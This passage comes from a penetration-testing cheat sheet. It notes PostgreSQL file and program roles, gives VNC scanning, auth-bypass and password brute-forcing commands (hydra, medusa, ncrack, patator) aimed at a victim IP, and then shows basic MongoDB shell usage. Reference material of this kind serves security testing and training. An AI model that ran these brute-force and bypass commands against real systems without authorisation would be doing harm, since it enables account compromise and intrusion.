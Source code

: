 - **`pg_execute_server_program`** can **execute** programs
- **`pg_read_server_files`** can **read** files
- **`pg_write_server_files`** can **write** files



## 2.20 VNC - 5900,5800

VNC is a graphical remote desktop sharing system running on TCP port 5900, with a web interface on port 5800.

```sh
# nmap scan
nmap -v -n -sV --script vnc-info,realvnc-auth-bypass,vnc-title -oA nmap/vnc -p 5900 $VICTIM_IP

# connect ('-passwd passwd.txt' to use password file)
vncviewer $VICTIM_IP

# bruteforcing
hydra -V -f -L user.txt –P pass.txt -s PORT vnc://$VICTIM_IP
medusa -h $VICTIM_IP –u root -P pass.txt –M vnc
ncrack -V --user root -P pass.txt $VICTIM_IP:PORT
patator vnc_login host=$VICTIM_IP password=FILE0 0=pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0use auxiliary/scanner/vnc/vnc_login
```


## 2.21 MongoDB - 27017

MongoDB is a common open-source NoSQL database. It's service runs on 27017 by
default.

Compared to SQL databases:
- Instead of tables, it has *collections*
- Instead of rows, it has *documents*
- Instead of columns, it has *fields*

Data is stored using [BSON](https://bsonspec.org/), which is a binary-serialized form of JSON.

```sql
# starting mongo app, connecting to database server
mongosh     # connect to localhost:27017, no creds
mongosh -u <user> -p <password>
mongosh hostname:port
mongosh --host <host> --port <port>

# show list of databases
show databases;
# connect to database named "admin"
use admin;
# list names of collections (tables) in connected database
db.getCollectionNames();
# create new collection (table) called "users"
db.createCollection("users")
# create new document (row) in users collection:
db.users.insert({id:"1", username: "derp", email: "derp@derp.com", password: "herpderp"})
# show all documents (rows) in the users collection:
db.users.find()
# get all documents matching search criteria
db.users.find({id: {$gt: 5}})
# get first matching user document
db.users.findOne({id: '1'})
# change fields in a users document
db.users.update({id:"1"}, {$set: {username: "bubba"}});
# delete a document (by id)
db.users.remove({'id':'1'})
# drop the users collection (delete everything)
```